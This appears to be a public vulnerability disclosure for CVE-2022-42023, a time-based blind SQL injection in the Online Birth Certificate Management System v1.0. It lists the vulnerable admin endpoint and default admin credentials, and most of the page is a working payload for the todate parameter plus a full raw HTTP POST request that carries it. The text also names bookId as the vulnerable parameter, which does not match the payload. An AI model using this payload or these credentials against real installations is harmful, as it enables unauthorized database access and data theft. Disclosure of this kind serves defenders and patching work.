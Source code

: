 # CVE-2022-42023 Online Birth Certificate Management System - SQL injection

Online Birth Certificate Management System v1.0 exists to contain a SQL injection vulnerability via the bookId parameter at /admin/application-bwdates-reports-details.php

username:admin password:admin123 ----> {ip}/admin/application-bwdates-reports-details.php

Supplier： https://www.sourcecodester.com/php/15683/online-birth-certificate-management-system-php-free-download.html

/admin/application-bwdates-reports-details.php has SQL injection

Payload: todate=0001-01-01'and(select*from(select+sleep(2))a/**/union/**/select+1)='

SQL injection because todate can be closed

![image](https://raw.githubusercontent.com/xidaner/CVE_HUNTER/main/img/2022-09-26/11.png)

```sql
POST /CVE/OBCMS/admin/application-bwdates-reports-details.php HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Content-Length: 143
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Language: zh-CN,zh;q=0.9
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Cookie: user_login=admin; userpassword=admin123; PHPSESSID=4okk1vi8496nglrc7ut709vl37
Origin: http://127.0.0.1
Referer: http://127.0.0.1/CVE/OBCMS/admin/between-dates-report.php
Sec-Ch-Ua: ";Not A Brand";v="99", "Chromium";v="94"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Upgrade-Insecure-Requests: 1
Accept-Encoding: gzip

fromdate=0001-01-01&submit=&todate=0001-01-01%27and%28select%2Afrom%28select%2Bsleep%280%29%29a%2F%2A%2A%2Funion%2F%2A%2A%2Fselect%2B1%29%3D%27
```

![image](https://raw.githubusercontent.com/xidaner/CVE_HUNTER/main/img/2022-09-26/12.png)